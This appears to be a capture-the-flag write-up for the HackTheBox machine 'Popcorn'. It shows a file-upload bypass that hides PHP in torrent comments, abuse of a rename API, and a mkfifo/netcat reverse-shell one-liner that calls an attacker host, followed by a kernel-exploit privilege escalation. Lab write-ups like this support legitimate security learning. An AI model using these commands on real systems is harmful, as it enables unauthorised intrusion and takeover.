

# HackTheBox - Popcorn

I started with the usual portscan.

`nmap -sS -sV -T4 <IP>`

We are given an open SSH server and web server.

I started to take a closer look at the web server.

The first thing we see is nothing special, just a simple default page telling us that the webserver is working.

So I started to enumerate the webserver manually and at the same time used tools like `FFUF`.

FFUF quickly showed us interesting results.

`ffuf -w directory-list-2.3-medium.txt -u http://<IP>/FUZZ -ic -c`

Under `/test` was the output of a `phpinfo()`, which is not good in principle, since they give an attacker unnecessary information.

Even more interesting were the other two results.

Under `/rename` we find a self-proclaimed __Renamer API__ whose simple usage is explained to us.

I immediately played around with it a bit and tested it.

It does what it promises, move/rename files that we have access to.

This one will surely come in handy for us soon!

And under the path `/torrent` we find an old software __Torrent Hoster__.

I had done some research and learned that this software is vulnerable to `Shell Upload` and `XSS`.

I registered a user to test the application and uploaded a few torrent files for testing.

The torrents are uploaded, but we do not know where they end up on the webserver and what extension they have, which we need to know if we want to upload malicious code.

`http://10.10.10.6/torrent/torrents.php?mode=details&id=d0d14c926e6e99761a2fdcff27b403d96376eff6`

Well, this is where our __Rename API__ comes into the game.

I used this function to view the code of __Torrent Hoster__ by temporarily moving/renaming for example the PHP code of `torrents.php` and giving them a `.txt` extension to view the source code.

I was then able to view the code at `http://<IP>/rename/torrent.txt`.

After downloading the source code I moved the files back to its original place under the original name to not break the application.

In the source code of `upload.php` I learned how the naming of the uploaded torrent files happens and where they end up

__upload.php__

Now that we know where our uploaded torrent files end up I tried to find a working upload bypass.

I ran into a few failed attempts until I came up with the idea of putting malicious PHP code into torrent files I created myself.

To do this I used `transmission-create`, created a torrent with `PHP code` in the comment of the torrent.

`transmission-create -o torrents/php.torrent -c "<?php phpinfo(); ?>" -t udp://tracker.new2.com:80 /tmp/torrent/file.txt`

I uploaded it, looked at what hash the torrent got and moved it to a `PHP file` using the __rename API__.

And lo and behold, it works.

Now I created a new torrent file with reverse-shell code inside and repeated the procedure.

`transmission-create -o torrents/cmd.torrent -c "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER_IP> 1234 >/tmp/f'); ?>" -t udp://tracker.cmd.com:80 /tmp/torrent/file.txt`

It worked and I got a reverse shell as user `ẁww-data`.

Under `/home/george/` I got the user flag.

## PrivEsc: www-data -> root

I started to enumerate the system and saw that the system is very old.

`cat /etc/issue`

Wow, a really very old Ubuntu.

Here an old kernel exploit should do the job for us.

I used [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) and got root.

